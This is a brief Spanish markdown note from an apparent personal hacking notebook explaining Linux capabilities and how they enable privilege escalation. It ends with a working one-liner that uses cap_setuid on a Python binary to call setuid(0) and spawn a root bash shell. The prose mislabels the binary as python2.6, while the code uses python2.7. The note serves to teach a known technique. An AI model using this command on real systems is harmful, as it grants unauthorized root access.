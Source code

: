 ```yaml
---
{"dg-publish":true,"permalink":"/hacking/basico/privilegios-especiales-capabilities/"}
---
```



---------------

## ¿Qué son las Capabilities?

En sí, las [Capabilities](https://book.hacktricks.wiki/es/linux-hardening/privilege-escalation/linux-capabilities.html?highlight=capabilities#capability-sets) son una forma de fragmentar los privilegios del ***super-usuario*** (`root`) en un conjunto más granular de permisos. Permiten a los procesos poder realizar acciones privilegiadas sin necesidad de ejecutar todo el proceso con privilegios de `root`.

Debido a esto, los ciber-delincuentes se aprovechan para realizar una explotación.

##### Ejemplo de explotación:
En el siguiente ejemplo, el binario`/usr/bin/python2.6`se considera vulnerable a privesc:
```python title:bash_scripting.bash
setcap cap_setuid+ep /usr/bin/python2.7
/usr/bin/python2.7 = cap_setuid+ep

# Exploit
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash");'
```



